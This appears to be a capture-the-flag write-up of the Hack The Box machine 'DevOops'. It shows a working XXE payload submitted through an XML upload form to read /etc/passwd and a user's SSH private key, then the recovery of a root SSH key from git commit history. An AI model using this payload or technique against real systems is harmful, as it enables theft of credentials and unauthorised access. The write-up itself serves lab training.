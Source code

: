 ```yaml
---
title: DevOops
author: fieldraccoon
date: 2020-06-21 
categories: [hack-the-box, linux]
tags: [hack-the-box, burpsuite, xml, xxe, medium]
math: true
---
```

# DevOops

> skills this box involved:

- enumeration  
- git command use
- XXE file read

# USER

After carrying out our nmap scan we procede to the web browser to open up the http service and run a dirbuster scan on it
we can see that it comes back with two results.
```
/feed
/upload
```
Navigating to feed shows a static page and therefore nothing interesting however on the upload page there is a upload section where it allows us to upload xml files. We can now start creating a payload to get us code execution. We loads up burpSuite and intercept the request. The website mentions that we must have Author, Subject and Content tags in our xml so of course we add these.
```xml
<test>
  <Author>fieldraccoon</Author>
  <Subject>fieldraccoon</Subject>
  <Content>fieldraccoon</Content>
</test>
```
this is the data we add to our initial payload and we get a request back form the server.

```bash
PROCESSED BLOGPOST: 
  Author: fieldraccoon
 Subject: fieldraccoon
 Content: fieldraccoon
 URL for later reference: /uploads/exploit.xml
 File path: /home/roosa/deploy/src
 ```
 We see that there is a user called roosa in the file path. This is the user for this box. We now modify our payload to try and get code execution. This is the exploit:
 
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>

<test>
  <Author>fieldraccoon</Author>
  <Subject>&file;</Subject>
  <Content>fieldraccoon</Content>
</test>
```
This reads the /etc/passwd file and confirms that the user roosa is the correct person we are after for this box.
We now try to grab the ssh key for the user by changing `file:///etc/passwd` to `file:///home/roosa/.ssh/id_rsa` This works perfectly and we read the ssh key. we copy this file to our box and ssh as roosa and read the user flag.

# ROOT
as we ssh we find that there is a git directory in /home/roosa/work/blogfeed/.git
we run `git log` to see if we find anything interesting and luckily we do.
```xml
commit 33e87c312c08735a02fa9c796021a4a3023129ad
Author: Roosa Hakkerson <roosa@solita.fi>
Date:   Mon Mar 19 09:33:06 2018 -0400

    reverted accidental commit with proper key
```
This means that the user had an old ssh key reverted(its the root ssh key) so we need to try and find a way to get this.
We run `git show 33e87c312c08735a02fa9c796021a4a3023129ad` and it shows us the root key,
We copy it to our box once again, give it appropriate permissions and ssh as root.

Please drop me some respecet if you found my writeup worth the read :)

https://www.hackthebox.eu/home/users/profile/246314

